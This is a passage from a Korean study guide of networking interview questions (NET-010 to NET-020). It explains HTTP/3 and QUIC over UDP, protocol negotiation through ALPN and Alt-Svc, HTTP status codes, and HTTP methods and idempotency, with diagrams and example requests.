| **신뢰성** | 있음 | 없음 | 있음 (QUIC) |
| **순서** | 보장 | 없음 | 보장 (QUIC) |
| **HTTP 사용** | HTTP/1.1, HTTP/2 | 직접 사용 안 함 | HTTP/3 |

**결론:**
- **신뢰성**: 패킷 손실 시 재전송
- **순서 보장**: 올바른 순서로 전달
- **연결 관리**: Keep-Alive 지원
- **HTTP 요구사항**: 정확한 데이터 전달 필요
- **HTTP/3**: UDP 사용하지만 QUIC이 신뢰성 구현

### NET-011
Q. 그렇다면, 왜 HTTP/3 에서는 UDP를 사용하나요? 위에서 언급한 UDP의 문제가 해결되었나요?

**HTTP/3가 UDP를 사용하는 이유는 TCP의 한계를 극복하고 성능을 개선하기 위해서. UDP의 문제는 QUIC 프로토콜로 해결.**

**TCP의 한계:**

**1. HOL Blocking**
- TCP는 순서 보장
- 하나의 패킷 손실 시 전체 스트림 대기
- HTTP/2 멀티플렉싱의 효과 제한

**2. 느린 연결 설정**
- 3-Way Handshake (1 RTT)
- TLS 핸드셰이크 (1-2 RTT)
- 총 2-3 RTT 필요

**3. 연결 마이그레이션 어려움**
- 네트워크 변경 시 연결 끊김
- 모바일 환경에 불리

**UDP 선택 이유:**

**1. 유연성**
- UDP는 단순한 전송만 제공
- 애플리케이션 레벨에서 제어 가능
- QUIC이 필요한 기능 구현

**2. 멀티플렉싱**
- 독립적인 스트림 구현 가능
- HOL Blocking 해결

**3. 빠른 연결**
- 0-RTT, 1-RTT 연결 설정
- TCP보다 빠름


```mermaid
graph TD
    A[HTTP/3 UDP 사용 이유] --> B[TCP 한계]
    A --> C[UDP 장점]
    
    B --> D[HOL Blocking<br/>느린 연결 설정<br/>마이그레이션 어려움]
    C --> E[유연성<br/>멀티플렉싱<br/>빠른 연결]
    
    E --> F[QUIC 프로토콜<br/>UDP 위에 구현]
    F --> G[신뢰성<br/>순서 보장<br/>암호화]
    
    style F fill:#99ff99
    style G fill:#99ff99
```

**QUIC이 UDP 문제 해결:**

**1. 신뢰성 구현**
- UDP는 신뢰성 없음
- QUIC이 애플리케이션 레벨에서 재전송
- TCP와 동일한 신뢰성

**2. 순서 보장**
- UDP는 순서 보장 없음
- QUIC이 스트림별 순서 보장
- 각 스트림이 독립적

**3. 연결 관리**
- UDP는 비연결
- QUIC이 연결 관리
- 연결 ID로 식별

**4. 암호화**
- UDP는 암호화 없음
- QUIC에 TLS 1.3 통합
- 기본 암호화

**비교:**

| 구분 | TCP | UDP | QUIC (UDP 기반) |
|------|-----|-----|-----------------|
| **신뢰성** | 있음 | 없음 | 있음 (QUIC 구현) |
| **순서** | 보장 (전체) | 없음 | 보장 (스트림별) |
| **HOL Blocking** | 있음 | 없음 | 없음 (독립 스트림) |
| **연결 설정** | 느림 (2-3 RTT) | 없음 | 빠름 (0-1 RTT) |
| **암호화** | 별도 (TLS) | 없음 | 내장 (TLS 1.3) |

**QUIC의 구현:**

**신뢰성:**
```
패킷 전송 → ACK 대기
ACK 없음 → 재전송
→ TCP와 동일한 메커니즘
```

**순서 보장:**
```
스트림 1: 순서 보장 (독립적)
스트림 2: 순서 보장 (독립적)
→ 스트림 간 순서는 보장 안 함 (불필요)
```

**HOL Blocking 해결:**
```
스트림 1: 패킷 손실 → 스트림 1만 대기
스트림 2: 정상 → 독립적으로 처리
→ TCP HOL Blocking 없음
```

**실제 동작:**

**HTTP/2 (TCP):**
```
연결 설정: 2-3 RTT
멀티플렉싱: TCP HOL Blocking 존재
네트워크 변경: 연결 끊김
```

**HTTP/3 (QUIC):**
```
연결 설정: 0-1 RTT
멀티플렉싱: HOL Blocking 없음
네트워크 변경: 연결 유지
```

**UDP의 문제 해결 여부:**

**해결됨:**
- ✅ 신뢰성: QUIC이 재전송 구현
- ✅ 순서: QUIC이 스트림별 보장
- ✅ 연결 관리: QUIC이 연결 관리
- ✅ 암호화: QUIC에 TLS 통합

**추가 장점:**
- ✅ HOL Blocking 해결
- ✅ 빠른 연결 설정
- ✅ 연결 마이그레이션

**결론:**
- **UDP 사용 이유**: TCP의 한계 극복, 유연성
- **문제 해결**: QUIC이 신뢰성, 순서, 암호화 구현
- **추가 장점**: HOL Blocking 해결, 빠른 연결
- **결과**: UDP의 단점 해결 + TCP의 장점 유지 + 추가 개선

### NET-012
Q. 그런데, 브라우저는 어떤 서버가 TCP를 쓰는지 UDP를 쓰는지 어떻게 알 수 있나요?

**브라우저는 URL 스킴, ALPN 협상, 포트 번호 등을 통해 프로토콜을 결정.**

**방법:**

**1. URL 스킴 (Scheme)**
- `http://` → HTTP/1.1 (TCP)
- `https://` → HTTP/1.1, HTTP/2, HTTP/3 (TCP 또는 QUIC)

**2. ALPN (Application-Layer Protocol Negotiation)**
- TLS 핸드셰이크 중 프로토콜 협상
- 서버가 지원하는 프로토콜 알림
- 클라이언트가 선택

**3. 포트 번호**
- 80: HTTP (TCP)
- 443: HTTPS (TCP 또는 QUIC)
- 명시적 포트 지정 가능

**4. Alt-Svc 헤더**
- 서버가 대체 서비스 알림
- HTTP/3 지원 여부 표시


```mermaid
graph TD
    A[브라우저 프로토콜 결정] --> B[URL 스킴<br/>http:// https://]
    A --> C[ALPN 협상<br/>TLS 핸드셰이크]
    A --> D[포트 번호<br/>80, 443]
    A --> E[Alt-Svc 헤더<br/>대체 서비스]
    
    B --> F[기본 프로토콜<br/>추정]
    C --> G[서버 지원<br/>프로토콜 확인]
    D --> H[표준 포트<br/>확인]
    E --> I[HTTP/3<br/>지원 확인]
    
    style C fill:#99ff99
    style E fill:#99ff99
```

**ALPN 협상 과정:**

**1. 클라이언트 → 서버:**
```
ClientHello
- 지원 프로토콜: h2, http/1.1
- ALPN 확장 포함
```

**2. 서버 → 클라이언트:**
```
ServerHello
- 선택 프로토콜: h2
- ALPN 응답
```

**3. 결과:**
- HTTP/2로 통신 시작
- 또는 HTTP/1.1로 폴백

**Alt-Svc 헤더:**

**HTTP/2 응답:**
```http
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=86400
→ HTTP/3 지원 알림
```

**브라우저 동작:**
1. HTTP/2로 통신
2. Alt-Svc 헤더 확인
3. 다음 요청부터 HTTP/3 시도

**실제 동작:**

**첫 연결:**
```
1. https://example.com 접속
2. TLS 핸드셰이크 (ALPN)
3. 서버: h2 지원
4. HTTP/2로 통신
5. Alt-Svc: h3=":443" 수신
```

**다음 연결:**
```
1. QUIC 연결 시도
2. 성공 → HTTP/3 사용
3. 실패 → HTTP/2로 폴백
```

**프로토콜 우선순위:**

**브라우저 전략:**
1. HTTP/3 시도 (Alt-Svc 있으면)
2. HTTP/2 시도 (ALPN)
3. HTTP/1.1 폴백

**포트 번호:**

**표준 포트:**
- 80: HTTP (TCP)
- 443: HTTPS (TCP 또는 QUIC)

**명시적 포트:**
```
https://example.com:8443
→ 8443 포트 사용
```

**QUIC 감지:**

**UDP 포트:**
- QUIC은 UDP 사용
- 같은 포트(443) 사용 가능
- 또는 다른 포트 지정

**연결 시도:**
```
1. TCP 연결 시도 (443)
2. QUIC 연결 시도 (443 UDP)
3. 성공한 것 사용
```

**실제 예시:**

**Chrome 브라우저:**
```
1. https://example.com 입력
2. DNS 조회
3. TCP 연결 (443)
4. TLS 핸드셰이크 (ALPN)
5. HTTP/2 협상
6. Alt-Svc 헤더 확인
7. 다음 요청부터 QUIC 시도
```

**서버 설정:**

**Nginx 예시:**
```nginx
listen 443 ssl http2;
listen 443 udp quic;

# Alt-Svc 헤더
add_header Alt-Svc 'h3=":443"; ma=86400';
```

**결론:**
- **URL 스킴**: 기본 프로토콜 추정
- **ALPN**: TLS 핸드셰이크 중 협상
- **Alt-Svc**: HTTP/3 지원 알림
- **포트 번호**: 표준 포트 또는 명시적 지정
- **자동 감지**: 브라우저가 자동으로 최적 프로토콜 선택

---

## 📌 HTTP 응답 코드

### NET-013
Q. HTTP 응답코드에 대해 설명해 주세요.

**HTTP 응답 코드(Status Code)**는 서버가 클라이언트의 요청에 대한 처리 결과를 나타내는 3자리 숫자 코드.

**응답 코드 분류:**

**1xx (Informational) - 정보성 응답**
- 요청을 받았으며 처리 중임을 의미
- 예: 100 Continue, 101 Switching Protocols

**2xx (Success) - 성공 응답**
- 요청이 성공적으로 처리됨
- 예: 200 OK, 201 Created, 204 No Content

**3xx (Redirection) - 리다이렉션**
- 요청을 완료하기 위해 추가 동작이 필요함
- 예: 301 Moved Permanently, 302 Found, 304 Not Modified

**4xx (Client Error) - 클라이언트 오류**
- 클라이언트의 요청에 문제가 있음
- 예: 400 Bad Request, 401 Unauthorized, 403 Forbidden, 404 Not Found

**5xx (Server Error) - 서버 오류**
- 서버에서 오류가 발생함
- 예: 500 Internal Server Error, 502 Bad Gateway, 503 Service Unavailable


```mermaid
graph TD
    A[HTTP 요청] --> B{응답 코드}
    B -->|1xx| C[정보성<br/>처리 중]
    B -->|2xx| D[성공<br/>정상 처리]
    B -->|3xx| E[리다이렉션<br/>추가 동작 필요]
    B -->|4xx| F[클라이언트 오류<br/>요청 문제]
    B -->|5xx| G[서버 오류<br/>서버 문제]
    
    style D fill:#99ff99
    style F fill:#ff9999
    style G fill:#ff9999
```

**주요 응답 코드:**

| 코드 | 의미 | 설명 |
|------|------|------|
| 200 | OK | 요청 성공 |
| 201 | Created | 리소스 생성 성공 |
| 301 | Moved Permanently | 영구 리다이렉션 |
| 400 | Bad Request | 잘못된 요청 |
| 401 | Unauthorized | 인증 필요 |
| 403 | Forbidden | 접근 금지 |
| 404 | Not Found | 리소스 없음 |
| 500 | Internal Server Error | 서버 내부 오류 |

**응답 코드의 역할:**
- 클라이언트가 요청 결과를 빠르게 파악
- 에러 처리 및 디버깅 용이
- API 설계의 일관성 유지

### NET-014
Q. 401 (Unauthorized) 와 403 (Forbidden)은 의미적으로 어떤 차이가 있나요?

**401 Unauthorized**와 **403 Forbidden**은 모두 접근 거부를 의미하지만, **거부 이유**가 다름.

**401 Unauthorized (인증 실패)**
- **의미**: 클라이언트가 **인증되지 않았음**
- **상황**: 로그인하지 않았거나, 잘못된 인증 정보 제공
- **해결**: 올바른 인증 정보(예: 사용자명/비밀번호, 토큰) 제공 필요
- **응답**: `WWW-Authenticate` 헤더로 인증 방법 안내

**403 Forbidden (권한 부족)**
- **의미**: 클라이언트가 **인증은 되었지만 권한이 없음**
- **상황**: 로그인은 했지만 해당 리소스에 접근할 권한이 없음
- **해결**: 권한이 있는 계정으로 접근하거나 관리자에게 권한 요청
- **응답**: 추가 인증 정보 제공해도 접근 불가


```mermaid
graph TD
    A[리소스 접근 요청] --> B{인증됨?}
    B -->|아니오| C[401 Unauthorized<br/>인증 필요]
    B -->|예| D{권한 있음?}
    D -->|아니오| E[403 Forbidden<br/>권한 부족]
    D -->|예| F[200 OK<br/>접근 허용]
    
    C --> G[인증 정보 제공]
    G --> B
    E --> H[권한 요청<br/>또는<br/>다른 계정 사용]
    
    style C fill:#ffcc99
    style E fill:#ff9999
    style F fill:#99ff99
```

**비유:**
- **401**: 건물 입구에서 출입증을 보여달라고 요청 (아직 입장 안 함)
- **403**: 건물에는 들어왔지만 VIP 구역에 접근할 권한이 없음 (이미 입장했지만 특정 구역 접근 불가)

**예시:**

**401 Unauthorized:**
```
요청: GET /api/user/profile
응답: 401 Unauthorized
헤더: WWW-Authenticate: Bearer realm="api"
→ 로그인 토큰이 없거나 만료됨
```

**403 Forbidden:**
```
요청: DELETE /api/admin/users/123
인증: Bearer token (일반 사용자)
응답: 403 Forbidden
→ 로그인은 했지만 관리자 권한이 없음
```

**실제 사용:**
- **401**: 로그인 페이지로 리다이렉션
- **403**: 접근 거부 페이지 표시 (권한 요청 안내)

**결론:**
- **401**: 인증 문제 (누구인지 모름)
- **403**: 권한 문제 (누구인지는 알지만 권한 없음)

### NET-015
Q. 200 (ok) 와 201 (created) 의 차이에 대해 설명해 주세요.

**200 OK**와 **201 Created**는 모두 성공 응답이지만, **응답의 의미**가 다름.

**200 OK (성공)**
- **의미**: 요청이 성공적으로 처리됨
- **용도**: 일반적인 성공 응답 (조회, 수정, 삭제 등)
- **응답 본문**: 요청한 리소스의 현재 상태 또는 처리 결과
- **캐시**: 가능 (적절한 캐시 헤더와 함께)

**201 Created (생성됨)**
- **의미**: 요청이 성공적으로 처리되어 **새 리소스가 생성됨**
- **용도**: POST 요청으로 새 리소스를 생성한 경우
- **응답 본문**: 생성된 리소스의 표현 또는 위치 정보
- **Location 헤더**: 생성된 리소스의 URI 포함 (선택적이지만 권장)


```mermaid
graph TD
    A[HTTP 요청] --> B{요청 메서드}
    B -->|GET/PUT/DELETE| C[200 OK<br/>조회/수정/삭제 성공]
    B -->|POST| D{새 리소스 생성?}
    D -->|예| E[201 Created<br/>리소스 생성 성공]
    D -->|아니오| C
    
    E --> F[Location 헤더<br/>생성된 리소스 URI]
    C --> G[리소스 상태<br/>또는 결과]
    
    style E fill:#99ff99
    style C fill:#99ff99
```

**비교표:**

| 구분 | 200 OK | 201 Created |
|------|--------|-------------|
| **의미** | 요청 성공 | 리소스 생성 성공 |
| **주로 사용** | GET, PUT, DELETE | POST (생성) |
| **응답 본문** | 리소스 상태 | 생성된 리소스 |
| **Location 헤더** | 불필요 | 권장 (생성된 URI) |
| **캐시 가능** | 가능 | 일반적으로 불가 |

**예시:**

**200 OK (조회):**
```http
GET /api/users/123 HTTP/1.1

HTTP/1.1 200 OK
Content-Type: application/json

{
  "id": 123,
  "name": "John Doe",
  "email": "john@example.com"
}
```

**200 OK (수정):**
```http
PUT /api/users/123 HTTP/1.1
Content-Type: application/json

{
  "name": "Jane Doe"
}

HTTP/1.1 200 OK
Content-Type: application/json

{
  "id": 123,
  "name": "Jane Doe",
  "email": "john@example.com"
}
```

**201 Created (생성):**
```http
POST /api/users HTTP/1.1
Content-Type: application/json

{
  "name": "John Doe",
  "email": "john@example.com"
}

HTTP/1.1 201 Created
Location: /api/users/456
Content-Type: application/json

{
  "id": 456,
  "name": "John Doe",
  "email": "john@example.com",
  "createdAt": "2024-01-01T00:00:00Z"
}
```

**실제 사용:**
- **200 OK**: 대부분의 성공적인 요청
- **201 Created**: RESTful API에서 리소스 생성 시 명시적으로 사용
- **204 No Content**: 응답 본문이 없을 때 (삭제 성공 등)

**결론:**
- **200 OK**: 일반적인 성공 응답
- **201 Created**: 새 리소스가 생성된 경우에만 사용
- **차이**: 201은 생성된 리소스의 위치를 명시적으로 제공

### NET-016
Q. 필요하다면 저희가 직접 응답코드를 정의해서 사용할 수 있을까요? 예를 들어 285번 처럼요.

**가능하지만 권장하지 않음.** HTTP 표준을 따르는 것이 좋음.

**HTTP 응답 코드 범위:**

**표준 코드 (1xx ~ 5xx)**
- **1xx**: 정보성 (RFC 7231)
- **2xx**: 성공 (RFC 7231)
- **3xx**: 리다이렉션 (RFC 7231)
- **4xx**: 클라이언트 오류 (RFC 7231)
- **5xx**: 서버 오류 (RFC 7231)

**비표준 코드 사용 시 문제점:**

1. **클라이언트 호환성**
   - 브라우저나 HTTP 클라이언트 라이브러리가 인식하지 못할 수 있음
   - 예상치 못한 동작 발생 가능

2. **표준 위반**
   - HTTP 표준을 따르지 않아 다른 시스템과의 호환성 저하
   - 미래의 HTTP 버전과 충돌 가능

3. **디버깅 어려움**
   - 표준 도구나 모니터링 시스템이 인식하지 못함
   - 문제 해결이 어려움

**대안 방법:**

**1. 표준 코드 사용 (권장)**
```http
# 285 대신 표준 코드 사용
400 Bad Request  # 잘못된 요청
422 Unprocessable Entity  # 요청은 유효하지만 처리 불가
```

**2. 응답 본문에 상세 정보 포함**
```json
{
  "status": 400,
  "code": 285,  // 커스텀 에러 코드
  "message": "Custom error description"
}
```

**3. HTTP 헤더 사용**
```http
HTTP/1.1 400 Bad Request
X-Custom-Error-Code: 285
Content-Type: application/json

{
  "error": "Custom error description"
}
```

**4. 확장 가능한 상태 코드 (실험적)**
- HTTP/1.1은 확장 가능하지만, 표준 범위 내에서 사용 권장
- 2xx, 4xx, 5xx 범위 내에서 사용


```mermaid
graph TD
    A[커스텀 응답 코드 필요] --> B{방법 선택}
    B -->|표준 코드 사용| C[400/422/500 등<br/>표준 코드 활용]
    B -->|상세 정보 필요| D[응답 본문에<br/>커스텀 코드 포함]
    B -->|메타데이터| E[HTTP 헤더에<br/>커스텀 정보]
    
    C --> F[✅ 권장<br/>호환성 좋음]
    D --> G[✅ 권장<br/>표준 준수]
    E --> G
    
    H[비표준 코드<br/>예: 285] --> I[❌ 비권장<br/>호환성 문제]
    
    style F fill:#99ff99
    style G fill:#99ff99
    style I fill:#ff9999
```

**실제 사례:**

**Google API:**
```json
{
  "error": {
    "code": 400,
    "message": "Invalid request",
    "status": "INVALID_ARGUMENT",
    "details": [...]
  }
}
```

**GitHub API:**
```json
{
  "message": "Validation Failed",
  "errors": [
    {
      "resource": "Issue",
      "field": "title",
      "code": "missing_field"
    }
  ]
}
```

**결론:**
- **비표준 코드 사용**: 기술적으로 가능하지만 비권장
- **권장 방법**: 표준 코드 사용 + 응답 본문에 상세 정보 포함
- **이유**: 호환성, 표준 준수, 디버깅 용이성

---

## 📌 HTTP Method

### NET-017
Q. HTTP Method 에 대해 설명해 주세요.

**HTTP Method(HTTP 메서드)**는 클라이언트가 서버에 요청할 때 수행할 동작을 지정하는 명령어.

**주요 HTTP Method:**

**1. GET**
- **용도**: 리소스 조회
- **특징**: 멱등성, 안전성
- **Body**: 없음 (있어도 무시됨)
- **캐시**: 가능

**2. POST**
- **용도**: 리소스 생성, 데이터 전송
- **특징**: 멱등성 없음, 안전성 없음
- **Body**: 있음
- **캐시**: 일반적으로 불가

**3. PUT**
- **용도**: 리소스 전체 수정 (덮어쓰기)
- **특징**: 멱등성, 안전성 없음
- **Body**: 있음
- **캐시**: 가능

**4. PATCH**
- **용도**: 리소스 부분 수정
- **특징**: 멱등성 없을 수 있음, 안전성 없음
- **Body**: 있음
- **캐시**: 가능

**5. DELETE**
- **용도**: 리소스 삭제
- **특징**: 멱등성, 안전성 없음
- **Body**: 없음
- **캐시**: 불가

**6. HEAD**
- **용도**: 헤더만 조회 (Body 없음)
- **특징**: GET과 동일하지만 Body 없음
- **용도**: 리소스 존재 확인, 메타데이터 조회

**7. OPTIONS**
- **용도**: 지원하는 메서드 조회
- **특징**: CORS Preflight에 사용


```mermaid
graph TD
    A[HTTP Method] --> B[GET<br/>조회]
    A --> C[POST<br/>생성]
    A --> D[PUT<br/>전체 수정]
    A --> E[PATCH<br/>부분 수정]
    A --> F[DELETE<br/>삭제]
    A --> G[HEAD<br/>헤더 조회]
    A --> H[OPTIONS<br/>메서드 조회]
    
    B --> I[멱등성 O<br/>안전성 O]
    C --> J[멱등성 X<br/>안전성 X]
    D --> K[멱등성 O<br/>안전성 X]
    E --> L[멱등성 ?<br/>안전성 X]
    F --> M[멱등성 O<br/>안전성 X]
    
    style B fill:#99ff99
    style C fill:#ffcc99
```

**특성 분류:**

**멱등성 (Idempotent):**
- 같은 요청을 여러 번 해도 결과가 동일
- GET, PUT, DELETE, HEAD, OPTIONS

**안전성 (Safe):**
- 서버 상태를 변경하지 않음
- GET, HEAD, OPTIONS

**비교표:**

| Method | 용도 | 멱등성 | 안전성 | Body |
|--------|------|--------|--------|------|
| **GET** | 조회 | ✅ | ✅ | 없음 |
| **POST** | 생성 | ❌ | ❌ | 있음 |
| **PUT** | 전체 수정 | ✅ | ❌ | 있음 |
| **PATCH** | 부분 수정 | ❌ | ❌ | 있음 |
| **DELETE** | 삭제 | ✅ | ❌ | 없음 |

**RESTful API 설계:**

**리소스 중심:**
```
GET    /users        # 사용자 목록 조회
GET    /users/123    # 사용자 123 조회
POST   /users        # 사용자 생성
PUT    /users/123    # 사용자 123 전체 수정
PATCH  /users/123    # 사용자 123 부분 수정
DELETE /users/123    # 사용자 123 삭제
```

**결론:**
- **HTTP Method**: 요청의 동작을 지정
- **주요 메서드**: GET, POST, PUT, PATCH, DELETE
- **특성**: 멱등성, 안전성
- **용도**: RESTful API 설계

### NET-018
Q. HTTP Method의 멱등성에 대해 설명해 주세요.

**멱등성(Idempotent)**은 같은 요청을 여러 번 수행해도 결과가 동일한 특성.

**정의:**
- 수학에서: f(f(x)) = f(x)
- HTTP에서: 같은 요청을 여러 번 해도 서버 상태가 동일

**멱등성 있는 메서드:**

**1. GET**
```
GET /users/123
→ 여러 번 요청해도 동일한 결과
→ 서버 상태 변경 없음
```

**2. PUT**
```
PUT /users/123 {name: "John"}
→ 여러 번 요청해도 동일한 상태
→ 항상 name="John"으로 설정
```

**3. DELETE**
```
DELETE /users/123
→ 여러 번 요청해도 동일한 상태
→ 사용자 123이 삭제된 상태 유지
```

**4. HEAD, OPTIONS**
- GET과 유사하게 멱등성 있음

**멱등성 없는 메서드:**

**1. POST**
```
POST /users {name: "John"}
→ 첫 요청: 사용자 생성 (ID: 1)
→ 두 번째 요청: 또 다른 사용자 생성 (ID: 2)
→ 결과가 다름
```

**2. PATCH**
```
PATCH /users/123 {count: count+1}
→ 첫 요청: count = 1
→ 두 번째 요청: count = 2
→ 결과가 다름
```


```mermaid
graph TD
    A[HTTP Method] --> B[멱등성 있음]
    A --> C[멱등성 없음]
    
    B --> D[GET<br/>여러 번 해도<br/>같은 결과]
    B --> E[PUT<br/>여러 번 해도<br/>같은 상태]
    B --> F[DELETE<br/>여러 번 해도<br/>삭제된 상태]
    
    C --> G[POST<br/>매번 새로운<br/>리소스 생성]
    C --> H[PATCH<br/>매번 다른<br/>상태]
    
    style B fill:#99ff99
    style C fill:#ffcc99
```

**멱등성의 중요성:**

**1. 재시도 안전성**
- 네트워크 오류 시 재시도 가능
- 멱등성 있으면 안전하게 재시도

**2. 캐싱**
- 멱등성 있는 요청은 캐시 가능
- GET, PUT, DELETE 등

**3. 분산 시스템**
- 여러 서버로 요청 전달 시 안전
- 멱등성 있으면 어느 서버로 가도 동일

**실제 예시:**

**멱등성 있는 PUT:**
```
PUT /users/123 {name: "John"}
→ 네트워크 오류로 응답 없음
→ 재시도: PUT /users/123 {name: "John"}
→ 결과: 동일 (name="John")
```

**멱등성 없는 POST:**
```
POST /users {name: "John"}
→ 네트워크 오류로 응답 없음
→ 재시도: POST /users {name: "John"}
→ 결과: 중복 생성 가능
```

**PATCH의 특수성:**

**멱등성 있을 수 있음:**
```
PATCH /users/123 {name: "John"}
→ 여러 번 해도 name="John"으로 동일
```

**멱등성 없을 수 있음:**
```
PATCH /users/123 {count: count+1}
→ 매번 count가 증가
```

**비교표:**

| Method | 멱등성 | 이유 |
|--------|--------|------|
| **GET** | ✅ | 조회만 수행 |
| **POST** | ❌ | 매번 새 리소스 생성 |
| **PUT** | ✅ | 전체 덮어쓰기 |
| **PATCH** | ❓ | 구현에 따라 다름 |
| **DELETE** | ✅ | 삭제 후 상태 동일 |

**실제 활용:**

**재시도 로직:**
```javascript
// 멱등성 있는 요청
function retryPut(url, data) {
  // 안전하게 재시도 가능
  return fetch(url, {method: 'PUT', body: data});
}

// 멱등성 없는 요청
function retryPost(url, data) {
  // 중복 방지 필요
  if (!alreadySent) {
    return fetch(url, {method: 'POST', body: data});
  }
}
```

**결론:**
- **멱등성**: 같은 요청을 여러 번 해도 결과 동일
- **멱등성 있음**: GET, PUT, DELETE
- **멱등성 없음**: POST
- **PATCH**: 구현에 따라 다름
- **중요성**: 재시도 안전성, 캐싱, 분산 시스템

### NET-019
Q. GET과 POST의 차이는 무엇인가요?

**GET과 POST는 HTTP의 가장 기본적인 메서드로, 용도와 특성이 다름.**

**주요 차이점:**

| 구분 | GET | POST |
|------|-----|------|
| **용도** | 리소스 조회 | 리소스 생성, 데이터 전송 |
| **멱등성** | 있음 | 없음 |
| **안전성** | 있음 (서버 상태 변경 없음) | 없음 |
| **Body** | 없음 (있어도 무시) | 있음 |
| **데이터 전송** | URL 쿼리 스트링 | Request Body |
| **캐시** | 가능 | 일반적으로 불가 |
| **브라우저 히스토리** | 저장됨 | 저장 안 됨 |
| **북마크** | 가능 | 불가 |
| **길이 제한** | URL 길이 제한 | 제한 없음 |


```mermaid
graph TD
    A[HTTP Method] --> B[GET<br/>조회]
    A --> C[POST<br/>생성/전송]
    
    B --> D[URL 파라미터<br/>캐시 가능<br/>멱등성]
    C --> E[Request Body<br/>캐시 불가<br/>멱등성 없음]
    
    style B fill:#99ff99
    style C fill:#ffcc99
```

**1. 용도:**

**GET:**
- 리소스 조회
- 데이터 검색
- 페이지 로드

**POST:**
- 리소스 생성
- 데이터 전송
- 폼 제출

**2. 데이터 전송 방식:**

**GET:**
```
GET /search?q=keyword&page=1 HTTP/1.1
→ URL 쿼리 스트링으로 전송
→ 브라우저 주소창에 표시
```

**POST:**
```
POST /users HTTP/1.1
Content-Type: application/json

{
  "name": "John",
  "email": "john@example.com"
}
→ Request Body로 전송
→ 브라우저 주소창에 표시 안 됨
```

**3. 캐싱:**

**GET:**
- 캐시 가능
- 브라우저, 프록시 서버에서 캐시
- 같은 요청은 캐시에서 반환

**POST:**
- 일반적으로 캐시 안 됨
- 서버 상태 변경 가능성
- 매번 서버로 전송

**4. 보안:**

**GET:**
- URL에 데이터 노출
- 브라우저 히스토리에 저장
- 로그에 기록됨
- 민감한 정보에 부적합

**POST:**
- Body에 데이터 (URL에 노출 안 됨)
- 브라우저 히스토리에 저장 안 됨
- 상대적으로 안전

**5. 멱등성:**

**GET:**
- 멱등성 있음
- 여러 번 요청해도 동일한 결과
- 안전하게 재시도 가능

**POST:**
- 멱등성 없음
- 매번 다른 결과 가능
- 중복 방지 필요

**실제 사용 예시:**

**GET 예시:**
```javascript
// 조회
fetch('/api/users/123')
  .then(res => res.json());

// 검색
fetch('/api/search?q=keyword')
  .then(res => res.json());
```

**POST 예시:**
```javascript
// 생성
fetch('/api/users', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({name: 'John'})
});

// 로그인
fetch('/api/login', {
  method: 'POST',
  body: JSON.stringify({username: 'user', password: 'pass'})
});
```

**선택 기준:**

**GET 사용:**
- ✅ 리소스 조회
- ✅ 데이터 검색
- ✅ 캐싱이 필요한 경우
- ✅ 북마크 가능해야 하는 경우

**POST 사용:**
- ✅ 리소스 생성
- ✅ 민감한 데이터 전송
- ✅ 서버 상태 변경
- ✅ 큰 데이터 전송

**결론:**
- **GET**: 조회용, URL 파라미터, 캐시 가능, 멱등성
- **POST**: 생성/전송용, Request Body, 캐시 불가, 멱등성 없음
- **선택**: 용도에 따라 적절한 메서드 선택

### NET-020
Q. POST와 PUT, PATCH의 차이는 무엇인가요?

**POST, PUT, PATCH는 모두 서버 상태를 변경하지만, 용도와 동작 방식이 다름.**

**주요 차이점:**

| 구분 | POST | PUT | PATCH |
|------|------|-----|-------|
| **용도** | 리소스 생성 | 리소스 전체 수정 | 리소스 부분 수정 |
| **멱등성** | 없음 | 있음 | 없을 수 있음 |
| **URI** | 컬렉션 (예: /users) | 특정 리소스 (예: /users/123) | 특정 리소스 (예: /users/123) |
| **동작** | 새 리소스 생성 | 리소스 전체 덮어쓰기 | 리소스 부분 업데이트 |
| **존재 여부** | 리소스 없어도 됨 | 리소스 없으면 생성 가능 | 리소스 있어야 함 |


```mermaid
graph TD
    A[리소스 변경 메서드] --> B[POST<br/>생성]
    A --> C[PUT<br/>전체 수정]
    A --> D[PATCH<br/>부분 수정]
    
    B --> E[새 리소스<br/>생성]
    C --> F[전체 덮어쓰기<br/>멱등성]
    D --> G[부분 업데이트<br/>선택적]
    
    style B fill:#99ff99
    style C fill:#ffcc99
    style D fill:#ffcc99
```

**1. POST (생성):**

**용도:**
- 새 리소스 생성
- 컬렉션에 추가

**특징:**
- 멱등성 없음 (매번 새 리소스)
- URI는 컬렉션
- 서버가 ID 생성

**예시:**
```http
POST /users HTTP/1.1
Content-Type: application/json

{
  "name": "John",
  "email": "john@example.com"
}

→ 서버가 ID 생성 (예: 123)
→ 응답: /users/123
```

**2. PUT (전체 수정):**

**용도:**
- 리소스 전체 수정 (덮어쓰기)
- 리소스가 없으면 생성 가능

**특징:**
- 멱등성 있음
- URI는 특정 리소스
- 전체 필드 필요

**예시:**
```http
PUT /users/123 HTTP/1.1
Content-Type: application/json

{
  "id": 123,
  "name": "Jane",
  "email": "jane@example.com",
  "age": 25
}

→ 전체 필드 덮어쓰기
→ age가 없으면 null로 설정될 수 있음
```

**3. PATCH (부분 수정):**

**용도:**
- 리소스 부분 수정
- 필요한 필드만 업데이트

**특징:**
- 멱등성 없을 수 있음
- URI는 특정 리소스
- 부분 필드만 필요

**예시:**
```http
PATCH /users/123 HTTP/1.1
Content-Type: application/json

{
  "name": "Jane"
}

→ name만 수정
→ 다른 필드는 변경 안 됨
```

**비교 예시:**

**초기 상태:**
```json
{
  "id": 123,
  "name": "John",
  "email": "john@example.com",
  "age": 30
}
```

**POST:**
```
POST /users
{name: "Jane"}
→ 새 사용자 생성 (ID: 124)
→ 기존 사용자 123은 그대로
```

**PUT:**
```
PUT /users/123
{name: "Jane"}
→ 사용자 123 전체 수정
→ email, age는 없어짐 (또는 null)
```

**PATCH:**
```
PATCH /users/123
{name: "Jane"}
→ 사용자 123의 name만 수정
→ email, age는 그대로
```

**멱등성:**

**POST:**
```
POST /users {name: "John"}
→ 첫 요청: ID 1 생성
→ 두 번째 요청: ID 2 생성
→ 멱등성 없음
```

**PUT:**
```
PUT /users/123 {name: "John"}
→ 첫 요청: name="John" 설정
→ 두 번째 요청: name="John" 설정 (동일)
→ 멱등성 있음
```

**PATCH:**
```
PATCH /users/123 {count: count+1}
→ 첫 요청: count 증가
→ 두 번째 요청: count 또 증가
→ 멱등성 없을 수 있음

PATCH /users/123 {name: "John"}
→ 여러 번 해도 name="John"
→ 멱등성 있을 수 있음
```

**실제 사용:**

**RESTful API 설계:**
```
POST   /users        # 사용자 생성
PUT    /users/123    # 사용자 123 전체 수정
